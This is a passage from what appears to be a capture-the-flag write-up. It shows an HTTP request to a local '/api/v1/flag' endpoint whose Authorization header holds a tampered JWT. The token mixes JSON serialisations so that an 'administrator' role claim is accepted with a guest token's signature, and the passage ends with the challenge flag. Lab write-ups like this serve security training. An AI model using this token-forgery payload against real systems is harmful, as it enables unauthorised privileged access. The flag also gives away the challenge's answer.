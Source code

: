 Now, we just send the tampered token to the `/flag` endpoint in burp repeater and receive the flag.

{% code overflow="wrap" %}
```bash
GET /api/v1/flag HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:1337/
Authorization: {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw"}
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Sec-GPC: 1

```
{% endcode %}

Flag: `HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`
